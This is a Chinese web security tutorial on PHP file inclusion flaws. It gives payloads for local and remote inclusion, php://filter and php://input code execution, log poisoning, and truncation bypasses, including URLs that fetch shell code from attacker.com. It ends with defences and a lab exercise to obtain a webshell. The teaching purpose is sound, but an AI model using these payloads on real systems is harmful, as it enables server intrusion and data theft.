









# 网络安全教程：P8：文件包含漏洞


## 概述
在本节课中，我们将要学习文件包含漏洞。这是一种常见的Web安全漏洞，源于开发人员对文件包含函数的参数控制不当。我们将了解其原理、类型、利用方式以及如何防御。

---

## 第一部分：漏洞概述

### 什么是文件包含？
文件包含是开发人员将需要重复调用的函数写入一个单独的文件，并在需要时通过特定函数将该文件引入当前代码中的操作。这样做可以减少代码冗余，降低后期维护难度，并保证网站整体风格的统一。

例如，一个网站的头部导航栏和底部版权信息在每个页面都相同，就可以将它们写入独立的文件（如 `header.php` 和 `footer.php`），然后在每个页面中包含这些文件。

### 为什么会产生漏洞？
漏洞产生的原因是文件包含函数（如 `include`）加载的参数没有经过过滤或严格定义，可以被攻击者控制。攻击者可以利用这一点，让程序包含并执行非预期的恶意文件。

**漏洞代码示例**：
```php
<?php
    $file = $_GET['file'];
    include($file);
?>
```
在这段PHP代码中，`$file` 变量直接来自用户通过URL（GET方法）传入的参数，并且没有经过任何过滤。如果攻击者访问 `?file=malicious.php`，服务器就会包含并执行 `malicious.php` 文件。





---

## 第二部分：漏洞类型及利用




上一节我们介绍了文件包含漏洞的基本概念，本节中我们来看看它的具体类型和攻击者如何利用它。

文件包含漏洞主要分为两种类型：
1.  **本地文件包含**：包含的文件位于服务器本地。
2.  **远程文件包含**：包含的文件位于远程服务器上。

### 本地文件包含漏洞
本地文件包含允许攻击者包含服务器本地的文件。其利用方式多样，以下是几种常见方法：

**1. 包含系统敏感文件**
攻击者可以尝试包含系统配置文件，以获取敏感信息。
*   **示例**：包含Windows系统的 `C:\windows\win.ini` 文件或Linux系统的 `/etc/passwd` 文件。

**2. 包含用户上传的文件**
如果网站存在文件上传功能，且上传的文件被保存在已知路径，攻击者可以结合LFI漏洞包含这些文件。即使上传的文件后缀名被限制（如只允许.jpg），只要文件内容符合PHP语法，被包含时就会被解析执行。
*   **原理**：PHP包含文件时，只关心文件内容是否符合PHP语法，不关心文件后缀名。





**3. 利用协议读取文件源码**
直接包含 `.php` 文件会执行其中的代码，而非显示源码。使用 `php://filter` 协议可以读取文件的源代码。
*   **语法**：`php://filter/convert.base64-encode/resource=目标文件`
*   **示例**：`?file=php://filter/convert.base64-encode/resource=index.php`
    这会将 `index.php` 的内容进行Base64编码后输出，攻击者解码后即可获得源码。

**4. 包含日志文件**
Web服务器（如Apache）会记录访问日志。攻击者可以发送一个包含PHP代码的请求，该请求会被记录到日志文件中。然后利用LFI漏洞包含这个日志文件，从而执行其中的PHP代码。
*   **关键**：需要利用工具（如Burp Suite）拦截请求，防止浏览器对特殊字符进行URL编码，确保原始PHP代码被写入日志。

**5. 利用压缩流协议**
通过 `zip://` 或 `phar://` 协议，可以包含压缩包（如.zip或.phar）内的特定文件。这常用于绕过上传限制。
*   **示例**：
    1.  上传一个包含恶意代码 `shell.php` 的 `test.zip` 压缩包。
    2.  利用漏洞包含：`?file=phar://./uploads/test.zip/shell.php`
    这样就能执行压缩包内的 `shell.php` 文件。

### 远程文件包含漏洞
远程文件包含允许攻击者包含远程服务器上的文件。其利用条件更为苛刻，需要PHP配置中 `allow_url_fopen` 和 `allow_url_include` 设置为 `On`。

**1. 直接包含远程恶意文件**
攻击者可以在自己控制的服务器上放置一个包含恶意代码的文本文件，然后通过RFI漏洞让目标网站包含并执行它。
*   **示例**：`?file=http://attacker.com/shell.txt`

**2. 利用php://input协议**
该协议允许将POST请求体中的数据作为PHP代码执行。
*   **利用方式**：
    1.  构造URL：`?file=php://input`
    2.  在POST数据体中写入PHP代码，例如：`<?php system('whoami'); ?>`
    服务器会执行POST数据体中的代码。

**3. 利用data://协议**
该协议允许直接包含经过编码的数据流。
*   **示例**：`?file=data://text/plain,<?php phpinfo();?>`
    或使用Base64编码：`?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+`

---

## 第三部分：绕过技巧

了解了基本的利用方式后，我们来看看攻击者如何绕过一些常见的防护措施。




### 本地文件包含的绕过
开发人员可能会对包含的路径或后缀进行限制。

**场景**：代码固定了前缀和后缀。
```php
<?php include("./inc/" . $_GET['file'] . ".htm"); ?>
```
攻击者传入 `?file=../../shell.php` 后，实际包含的路径是 `./inc/../../shell.php.htm`，文件不存在。

**绕过方法**：
*   **%00截断**：在特定PHP版本（<5.3.4）且 `magic_quotes_gpc` 关闭时，可以在文件名后添加 `%00` 来截断后面的后缀。
    *   `?file=../../shell.php%00`
*   **路径长度截断**：在Windows系统下，当路径长度超过256字符时，超出的部分会被丢弃。可以构造超长的 `../` 来“挤掉”后缀。
    *   `?file=../../shell.php/././././...（重复很多次）`

### 远程文件包含的绕过
**场景**：代码同样固定了后缀。
```php
<?php include($_GET['file'] . "/footer.php"); ?>
```
攻击者传入 `?file=http://attacker.com/shell` 后，实际包含的是 `http://attacker.com/shell/footer.php`，可能不存在。

**绕过方法**：
*   **使用`?`或`#`**：利用URL的查询字符串或片段标识符来“注释”掉后面的固定部分。
    *   `?file=http://attacker.com/shell.txt?`
    *   `?file=http://attacker.com/shell.txt%23` （`#`的URL编码）

---

## 第四部分：漏洞危害与防御

### 漏洞危害
文件包含漏洞的危害非常严重，主要包括：
1.  **敏感信息泄露**：读取服务器上的配置文件、源代码、日志等。
2.  **执行任意代码**：通过包含恶意文件或利用协议，在服务器上执行系统命令。
3.  **获取服务器权限**：上传并执行Webshell，从而完全控制服务器。

### 防御措施
为了防范文件包含漏洞，开发人员应采取以下措施：
1.  **避免动态包含**：尽量避免使用用户输入直接作为包含文件的路径。如果必须使用，应进行严格过滤。
2.  **关闭危险配置**：在 `php.ini` 中，将 `allow_url_fopen` 和 `allow_url_include` 设置为 `Off`，禁用远程文件包含。
3.  **白名单限制**：对可包含的文件名或目录进行白名单校验。只允许包含预期的、安全的文件。
4.  **设置包含目录**：使用 `open_basedir` 配置项，将PHP可操作的文件限制在特定目录内。
5.  **过滤危险字符**：严格检查用户输入，过滤或转义 `../`、`..\` 等目录遍历字符。
6.  **服务端验证**：所有关键的安全校验都必须在服务端进行，客户端的校验很容易被绕过。

---

## 第五部分：课后作业与总结

### 课后作业
请完成以下实践任务，以巩固对本节课知识的理解：
1.  **基础实验**：在提供的实验环境中，复现至少两种本地文件包含的利用方法（如包含敏感文件、利用`php://filter`读取源码）。
2.  **进阶挑战**：尝试在实验环境中，利用文件包含漏洞最终获取Webshell（getshell），并记录详细步骤。







**提示**：实验环境的入口可能隐藏在前端页面的源代码中，请仔细查看。



### 总结
本节课中我们一起学习了文件包含漏洞。我们从漏洞的基本概念讲起，了解了它是由于开发人员对包含函数的参数控制不当所引发的。接着，我们深入探讨了本地文件包含和远程文件包含两种类型，并学习了多种利用方式，如包含敏感文件、利用各种PHP协议、包含日志文件等。我们还介绍了一些常见的绕过防护的技巧。最后，我们总结了该漏洞的巨大危害，并给出了关键的防御建议。理解并掌握这些知识，对于进行Web安全审计和防护至关重要。